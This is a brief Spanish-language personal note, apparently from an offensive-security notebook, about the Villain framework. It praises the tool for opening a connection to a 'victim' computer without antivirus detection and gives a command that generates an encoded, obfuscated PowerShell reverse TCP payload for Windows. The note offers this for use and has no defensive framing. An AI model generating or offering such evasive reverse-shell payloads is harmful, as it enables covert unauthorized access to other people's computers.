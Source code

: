 Lo mejor de esta herramienta Villain es que podemos crear una conexión a otra computadora sin que la computadora victima lo detecte como virus y todo esto creando un codigo encriptado para no ser dectectado.

```bash 
generate payload=windows/netcat/powershell_reverse_tcp lhost=wlan0 encode obfuscate 
```

![[Pasted image 20240115220317.png]]
